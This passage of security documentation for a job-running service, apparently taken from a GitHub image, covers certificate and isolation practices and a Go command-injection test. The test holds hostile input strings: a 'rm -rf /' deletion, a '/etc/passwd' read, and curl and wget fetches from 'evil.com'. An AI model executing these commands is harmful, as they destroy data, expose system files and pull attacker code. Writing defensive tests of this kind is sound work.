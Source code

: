 2. **Certificate Management**
    - Use strong key sizes (2048+ RSA, 256+ ECDSA)
    - Implement certificate rotation
    - Validate certificate chains

3. **Process Isolation**
    - Use minimal privileges
    - Implement proper namespace isolation
    - Clean up resources thoroughly

### Security Testing

```go
// test/security/security_test.go
func TestCommandInjection(t *testing.T) {
maliciousCommands := []string{
"echo test; rm -rf /",
"echo test && cat /etc/passwd",
"$(curl evil.com/shell)",
"`wget evil.com/backdoor`",
}

worker := setupTestWorker(t)

for _, cmd := range maliciousCommands {
t.Run(fmt.Sprintf("command_%s", cmd), func (t *testing.T) {
_, err := worker.StartJob(context.Background(), cmd, nil, 0, 0, 0)
// Should either reject the command or safely execute it in isolation
if err == nil {
// If accepted, verify it runs in isolation
// Implementation depends on command validation strategy
}
})
}
}

func TestResourceLimits(t *testing.T) {
tests := []struct {
name      string
maxMemory int32
expectErr bool
}{
{"normal_limit", 512, false},
{"excessive_limit", 999999999, true},
{"negative_limit", -1, true},
}

worker := setupTestWorker(t)

for _, tt := range tests {
t.Run(tt.name, func (t *testing.T) {
_, err := worker.StartJob(context.Background(), "echo", []string{"test"},
0, tt.maxMemory, 0)

if tt.expectErr {
assert.Error(t, err)
} else {
assert.NoError(t, err)
}
})
}
}
```
